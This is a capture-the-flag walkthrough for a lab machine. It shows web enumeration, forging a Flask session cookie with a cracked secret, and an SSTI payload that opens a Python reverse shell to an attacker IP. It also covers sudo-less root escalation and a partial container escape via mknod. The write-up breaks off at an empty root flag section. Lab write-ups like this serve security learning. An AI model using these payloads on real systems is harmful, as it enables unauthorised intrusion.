






# Wand Permit

## User flag

### Enumeration
First things first, nmap scan returns only 2 ports open: `80 http` and `5432 postgresql`.
Now, I'll go poke around the webserver, meanwhile I started a gobuster search on the url which returned:
```bash
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.229.188
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/12/02 14:28:12 Starting gobuster in directory enumeration mode
===============================================================
/search               (Status: 302) [Size: 197] [--> login]
/logout               (Status: 302) [Size: 197] [--> login]
/login                (Status: 200) [Size: 1445]
/app                  (Status: 302) [Size: 197] [--> login]
/meetings             (Status: 302) [Size: 197] [--> login]
/forgotpassword       (Status: 200) [Size: 1245]
/verification         (Status: 302) [Size: 197] [--> login]
```
As we can see we are always redirected to login page.
The nmap script also returns the presence of `robots.txt`, which shows 1 disallowed entry: `/static/CHANGELOG.txt`:


We can see some usefull info:
On version 2.3.0 it has been added the manifest plugin, with a bit of research i found that this plugin saves its configuration file in /static/manifest.json


We found 2 js files:
- main-bundle.js
- dev-48644bcc829deeffe29e-bundle.js

 

In the first file I found an instresting api endpoint `/testing/dev/api/register`, but only developers can access this endpoint. So moving on the second file we can see that the function is preparing a Cookie header, and with some console.log we get the full cookie string: `Cookie: x-debug-key-v3=038663befb1ad868a62035cf5d685adb`.

### Foothold

Now sending a GET request using burp to intercept the packet and adding the just found Cookie string we can access the api endpoint which returned a registration form which we can use to create a user.


We can now login with the newly created user and access the pages.
In order to schedule a meeting we need to verify our accounts so looking at verification page it tells us to upload an image with a qr code to do the verification and it gives us an example image: 

I just reuploaded the example png and it got me verified. We could also decode the qrcode which returned a base45 encoded string modify it and create a new qrcode to upload.

Then in order to access the meetings page we need to be a staff member. Looking at the traffic with burp we have a session cookie which presumembly is a `flask-session-cookie` because it is a python webserver.

Let's try to unsign it using `flask-unsign`:
```bash
$ flask-unsign --wordlist /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --unsign --cookie "eyJlbWFpbCI6ImRhZHlAZGFkeS5odGIiLCJpZCI6OSwic3RhZmYiOmZhbHNlLCJ2ZXJpZmllZCI6dHJ1ZX0.Y4y_5g.ahgwA_DTg0gnfCF9EVQtwnG0Fls" --no-literal-eval
[*] Session decodes to: {'email': 'dady@dady.htb', 'id': 9, 'staff': False, 'verified': True}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 1261440 attemptsEks
b'sss'
```

Now we can sign our own cookie using the found secret:
```bash
$ flask-unsign --sign --cookie "{'email': 'dady@dady.htb', 'id': 9, 'staff': True, 'verified': True}" --secret 'sss'
eyJlbWFpbCI6ImRhZHlAZGFkeS5odGIiLCJpZCI6OSwic3RhZmYiOnRydWUsInZlcmlmaWVkIjp0cnVlfQ.Y473Dw.uHR7TX6TNpYG9hwWv9DGFqw_Axk
```

We can now access the meetings page. On this page there is only a user search box which returns the output of the searched string. Therefore I tryed with a simple SSTI payload `http://10.129.229.188/meetings?email={{7*7}}` which returned 49.

### User Flag
Querying for subclasses it returns Popen so we have RCE and we can get a reverse shell:
```bash
http://10.129.255.149/meetings?email={{().__class__.__base__.__subclasses__()[397]('python+-c+\'import+socket,os,pty%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.2",4444))%3bos.dup2(s.fileno(),0)%3bos.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bpty.spawn("/bin/sh")\'',shell=True,stdout=-1).communicate()[0].strip()}}
```

We are now inside the machine and judging by the hostname we are inside a container  
```bash
sparkles@d08d143f2369:~/$ cat user.txt
HTB{ef6400e22a00f0f7e9da3a6a6497733}
```

## Root

Looking at intresting permissions `sudo -l` it returns `(sparkles) NOPASSWD: /usr/bin/less`.
According to GTFO bins we can exploit this to gain root access.
```bash
$ sudo less /etc/profile
```
Then by typing `!/bin/bash` we get root shell.

At this point I went down a rabbit hole enumerating all the postgresql container, but eventually I got back at this one thinking carefully.

I searched a lot and at the end I found the answer on HackTricks:
> If you have access as root inside a container and you have escaped as a non privileged user to the host, you can abuse both shells to privesc inside the host if you have the capability MKNOD inside the container (it's by default).
> With such capability the root user within the container is allowed to create block device files. Device files are special files that are used to access underlying hardware & kernel modules. For example, the /dev/sda block device file gives access to read the raw data on the systems disk.
> Docker ensures that block devices cannot be abused from within the container by setting a cgroup policy on the container that blocks read and write of block devices.
However, if a block device is created within the container it can be accessed through the /proc/PID/root/ folder by someone outside the container, the limitation being that the process must be owned by the same user outside and inside the container.

```bash
# On the container as root
cd /
# Crate device
mknod sda b 8 0
# Give access to it
chmod 777 sda

/bin/sh

```


### Root Flag

